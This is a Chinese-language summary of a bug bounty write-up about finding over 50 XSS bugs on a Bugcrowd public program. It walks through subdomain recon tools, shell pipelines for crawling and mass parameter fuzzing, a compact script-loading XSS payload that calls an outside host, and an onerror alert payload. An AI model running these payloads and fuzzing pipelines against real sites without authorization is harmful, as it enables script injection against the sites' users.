# 2022-04-01：Takshal(tojojo) How I was able to find 50+ Cross-site scripting (XSS) Security Vulnerabilities on Bugcrowd Public Program?.md
## Takshal(tojojo) Mar 16
### https://infosecwriteups.com/how-i-was-able-to-find-50-cross-site-scripting-xss-security-vulnerabilities-on-bugcrowd-public-ba33db2b0ab1

文章很簡要，提到了使用了哪些工具來幫忙他擴大攻擊範圍、測試 XSS  
應該算是初學者能多多了解有哪些工的的好文章  
------------------------

Takshal 想玩點東西，註冊了 [BugCrowd](https://www.bugcrowd.com/) 來玩 Bug Bounty Hunting，然後選了目標

在此過程中使用的工具：  
1. AssetFinder
2. SubFinder
3. Amass
4. Find-domain
5. Google Dorking

(Note: These tools are used to find the sub-domain of the target)  

跑完這些工具後，收集到超過 500 個 sub-domain。接著要從裡找出 active 的 sub-domain  

這邊知名的工具是 `HTTPX`，不過作者更喜歡 `httprobe`，由另一位名人開發的 (`Tomnomnom`)  

兩套工具都能掃出 open ports，httprobe 的指令大概像這樣

```
cat subdomains.txt | httprobe | tee -a host.txt
```

掃描過後，找到 260 alive host  
然後用 `Open Multiple URLs extension` 手動再確認一次這些網站  
接著用 `google-dorking` 技巧，能幫忙找到這些 sub-domain 的 login 頁面  
作者到處摸索過後，找到可以玩 html injection 的地方，但只有 20 character 的空間  
花了兩天時間，才成功找到如何用這點點空間實現 cross-site scripting  

```
<script/src=//Ǌ.₨></script>
```

驗證之後，確認他能夠靠這 paylaod 達成 XSS。作者用 POC (Proof-of-Concept) 的方式，report 給 BugCrowd。  
但是！BugCrowd 竟然默默的把問題修正了，並且標記作者的 report 為 NA (Not Applicable)  

作者火大了，用自己寫的 Crawler script，並利用 `waybackurl`，找到將近 5000000 endpoints  

```
cat host.txt | crawler | tee -a endpoint.txt
cat host.txt | waybackurl | tee -a endpoint.txt
```

接著用 `qsreplace` 對這 5 百萬個目標，做參數模糊測試  

After finding all the 50 Lakh endpoint I started to fuzz all the parameters to find xss vulnerability with the help of the tool qsreplace. The command used was:

```
cat endpoint.txt | qsreplace ‘“><img src=x onerror=alert(1)> | tee -a xss_fuzz.txt
```

接著必須檢查有沒有成功，作者寫了一個工具，發送 request 到這些目標，然後存下來 response 確認有沒有包含成功被影響的 URLs
> cat xss_fuzz.txt | freq | tee -a possible_xss.txt

一一串下來，作者找到 1000 endpoints，然後手動檢查，最後找到 80 個 unique XSS，大概回報了 5X 個，而且大部分都被接收了  

